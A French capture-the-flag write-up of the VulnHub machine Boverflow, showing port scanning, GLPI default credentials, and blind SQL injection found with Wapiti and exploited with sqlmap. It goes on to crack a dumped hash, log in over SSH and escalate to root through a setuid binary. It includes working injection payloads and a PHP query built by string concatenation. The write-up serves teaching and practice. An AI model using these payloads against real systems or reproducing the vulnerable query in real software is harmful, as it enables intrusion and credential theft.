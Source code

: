 ```yaml
---
title: Solution du CTF Boverflow de VulnHub
date: 2022-01-11 20:06:00
tags: [CTF, VulnHub]
---
```


Slow Life
---------

[Boverflow](https://www.vulnhub.com/entry/boverflow-1,572/ "Boverflow") est un CTF créé par *foxlox*, auteur de différents CTFs proposé sur VulnHub.  

La description du CTF nous prévient que nos paquets pourraient être DROPés si on charge un peu trop la mule, c'est vraisemblablement dû à la présence d'un *fail2ban*.

Pour un scan de port ça semble passer. Le port 80 nous redirige directement sur une installation de [GLPI](http://glpi-project.org/ "GLPI").

```plain

Nmap scan report for 192.168.56.22
Host is up (0.00014s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:0a:c8:cb:7e:d7:3a:f0:5b:3d:c3:ab:1e:dd:a9:f1 (RSA)
|   256 d4:f2:ee:8c:d0:61:74:31:df:6b:5b:e1:c9:de:21:ad (ECDSA)
|_  256 0a:be:d2:86:51:c0:e9:2c:92:ed:15:5e:3c:e1:14:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-title: GLPI - Authentication
|_Requested resource was http://192.168.56.22/glpi/
|_http-server-header: Apache/2.4.38 (Debian)

```

Ce site nous demande directement des identifiants, il ne semble pas y avoir d'accès publique.  

Une petite recherche sur Internet m'amène sur [ce forum](https://forum.glpi-project.org/viewtopic.php?id=23219 "ce forum") qui liste les comptes par défaut de ce logiciel. Tous ont un mot de passe par défaut qui correspond au nom d'utilisateur :

```plain

you have 4 differents profils
glpi/glpi (super-admin)
tech/tech
postonly/postonly (only for helpdesk)
normal/normal

```

J'ai testé rapidement et le compte *normal* fonctionne. Toutefois il ne semble pas assez privilégié pour ajouter des éléments via l'interface.  

Un exploit pour GLPI existe et [est détaillé dans cet article](https://offsec.almond.consulting/playing-with-gzip-rce-in-glpi.html "est détaillé dans cet article"). Il y a un code d'exploitation publié sur exploit-db et en le lisant on comprends qu'il créé une entrée via la secion *Wifi Networks.*  

Notre compte actuel ne permet donc pas cette exploitation.  

Timmy The Turtle
----------------

Via *feroxbuster* je trouve une mire de login à l'adresse [http://192.168.56.22/admin/](http://192.168.56.22/admin/ "http://192.168.56.22/admin/").  

On peut lancer Wapiti dessus en ne sélectionnant que le ou les modules les plus à même de remonter quelque chose d'intéressant afin d'éviter le ban sur la quantité de requêtes :

```bash
$ wapiti -u http://192.168.56.24/admin/ --color -m timesql -v2
[*] Lancement du module timesql
---
Vulnérabilité d'injection SQL en aveugle dans http://192.168.56.22/admin/verify.php via une injection dans le paramètre username
Evil request:
	POST /admin/verify.php HTTP/1.1
	Host: 192.168.56.22
	Referer: http://192.168.56.22/admin/
	Content-Type: application/x-www-form-urlencoded

	username=%27%20or%20sleep%287%29%231&password=Letm3in_
---
---
Vulnérabilité d'injection SQL en aveugle dans http://192.168.56.22/admin/verify.php via une injection dans le paramètre password
Evil request:
	POST /admin/verify.php HTTP/1.1
	Host: 192.168.56.22
	Referer: http://192.168.56.22/admin/
	Content-Type: application/x-www-form-urlencoded

	username=alice&password=%27%20or%20sleep%287%29%231
---

```

Nice ! On peut enchainer avec SQLmap mais en mode *vas-y molo*. Ça passe en utilisant l'option *delay* mais SQLmap ne la respecte pas vraiment puisqu'il faudrait aussi limiter le parallélisme à un seul thread pour que ce soit effectif.

```bash

$ python sqlmap.py -u http://192.168.56.24/admin/verify.php --data "username=admin&password=password" --dbms mysql --risk 3 --level 5 --delay 5

sqlmap identified the following injection point(s) with a total of 1328 HTTP(s) requests:
---
Parameter: username (POST)
	Type: error-based
	Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
	Payload: username=admin'||(SELECT 0x43724275 FROM DUAL WHERE 6495=6495 AND (SELECT 4399 FROM(SELECT COUNT(*),CONCAT(0x716b707a71,(SELECT (ELT(4399=4399,1))),0x71766a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&password=password

	Type: time-based blind
	Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
	Payload: username=admin'||(SELECT 0x57544e49 FROM DUAL WHERE 9937=9937 AND (SELECT 9840 FROM (SELECT(SLEEP(5)))WtOD))||'&password=password
---

```

On trouve alors différentes DBs et la courante dispose d'un hash :

```plain

available databases [3]:
[*] basedb
[*] glpi
[*] information_schema

```

```plain

Database: basedb
Table: passwd
[1 entry]
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
| 1  | fox      | be073f86255a6d45d4392ca8fc226e73 |
+----+----------+----------------------------------+

```

Le hash est vite cassé via CrackStation (cleartext : *moanapozzi*).  

J'ai aussi extrais les hashs des users GLPI mais impossible de casser le compte privilégié *glpi*...

Lazy Fox
--------

Les identifiants de la base de donnés nous fournissent finalement un accès via SSH.

```bash

fox@boverflow:~$ cat user.txt 
a7de9153594943377ea6e508f5561a67

```

On trouve dans le dossier de l'utilisateur un binaire *mysudo* et son code source associé que voici :

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>

char cmd[100];

void execute()
{
	printf("Command output:\n");
	if (cmd) system(cmd);
}

void echo()
{
	printf("\nWelcome to mysudo tool, you can run a command on the system as root.\n\ndon't try brute force, it's impossible!\n\n");
		setuid(0);
	char username[20],password[20];
	printf("Command: ");
	scanf("%s", cmd);
	printf("Username: ");
	scanf("%s", username);
	printf("Password: ");
	scanf("%s", password);
	if ((!strcmp(username,"username"))&&(!strcmp(password,"password")))
	 execute(); 
	else
	 printf("Wrong username or password!\n");
}

int main()
{
	echo();
	return 0;
}

```

Evidemment si on effectue un strings sur le fichier on obtient des chaines sensiblement différentes (le mot de passe attendu a été changé).  

On peut aussi débugger le binaire avec gdb, désassembler la méthode *echo* et placer les breakpoints sur les appels à *strcmp*.  

Une inspection des registres *rdi* et *rsi* permettront ainsi de voir les chaines comparées.

```plain

Command output:
Welcome to mysudo tool, you can run a command on the system as root.
don't try brute force, it's impossible!
Command: 
Username: 
Password: 
username
passworaaaaaaaaaaaaaa
Wrong username or password!

```

On trouve la chaine *passworaaaaaaaaaaaaaa* qui n'est pas dans le code C.

```bash

fox@boverflow:~$ ./mysudo 

Welcome to mysudo tool, you can run a command on the system as root.

don't try brute force, it's impossible!

Command: bash
Username: username
Password: passworaaaaaaaaaaaaaa
Command output:
root@boverflow:~# id
uid=0(root) gid=1000(fox) groups=1000(fox),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
root@boverflow:~# cd /root
root@boverflow:/root# ls
root.txt
root@boverflow:/root# cat root.txt 
9057703b55b8943d91cad17ac3c4920f

```

Et voilà !  

Un petit coup d'oeil au fichier verify.php nous permet de voir comment était formé la requête SQL :  

```php
$q="select count(*) from passwd where username='".$_POST['username']."' and password='".$_POST['password']."';";
```


*Published January 11 2022 at 20:06*
